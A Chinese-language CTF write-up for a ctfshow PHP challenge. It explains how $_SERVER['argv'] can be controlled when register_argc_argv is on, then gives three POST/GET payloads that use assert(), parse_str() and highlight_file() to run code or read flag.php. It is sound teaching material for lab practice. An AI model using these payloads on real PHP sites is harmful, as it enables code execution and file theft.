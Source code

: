 1. 在cli模式下(命令行)
   `$_SERVER['argv'][0] `为文件名,其余是传递给脚本的参数

![](https://img.npfs06.top/20210308001803.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



2.在web网页模式下

在php.ini开启register_argc_argv配置项 设置register_argc_argv = On

> php.ini :
> register_argc_argv = On

`$_SERVER['argv'][0] `为我们传递的第一个参数

![](https://raw.githubusercontent.com/npfs06/Images/main/img/20210222183051.png)

所以可以控制`$a['0']`

**解法一：**

payload：

```
POST CTF_SHOW=1&CTF[SHOW.COM=1&fun=assert($a[0])
GET /?$fl0g=flag_give_me;
```



**解法二**

在`$_SERVER['argv'][0]`中，对于传递的参数，可以通过加号`+`进行分割

![](https://raw.githubusercontent.com/npfs06/Images/main/img/20210222183825.png)

payload:

> parse_str() 函数把查询字符串解析到变量中。

```
get: a=1+fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
```

```
get: a=1+$fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[1])
```



**解法三**

payload:

```
GET:?1=flag.php POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1])
```



## web126
